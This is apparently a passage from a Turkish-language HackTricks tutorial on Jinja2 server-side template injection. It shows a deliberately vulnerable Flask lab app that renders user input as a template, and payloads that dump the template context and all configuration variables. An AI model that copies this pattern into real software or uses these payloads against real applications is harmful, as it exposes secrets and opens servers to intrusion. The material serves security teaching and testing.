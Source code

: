 # Jinja2 SSTI

{{#include ../../banners/hacktricks-training.md}}


## **Laboratuvar**
```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route("/")
def home():
if request.args.get('c'):
return render_template_string(request.args.get('c'))
else:
return "Hello, send someting inside the param 'c'!"

if __name__ == "__main__":
app.run()
```
## **Çeşitli**

### **Hata Ayıklama İfadesi**

Eğer Hata Ayıklama Eklentisi etkinse, mevcut bağlamı ve mevcut filtreleri ve testleri dökmek için bir `debug` etiketi kullanılabilir. Bu, bir hata ayıklayıcı kurmadan şablonda kullanılabilecekleri görmek için faydalıdır.
```python
<pre>

{% raw %}
{% debug %}
{% endraw %}








</pre>
```
### **Tüm yapılandırma değişkenlerini dök**
```python
{{ config }} #In these object you can find all the configured env variables


{% raw %}
{% for key, value in config.items() %}
<dt>{{ key|e }}</dt>
<dd>{{ value|e }}</dd>
{% endfor %}
{% endraw %}






```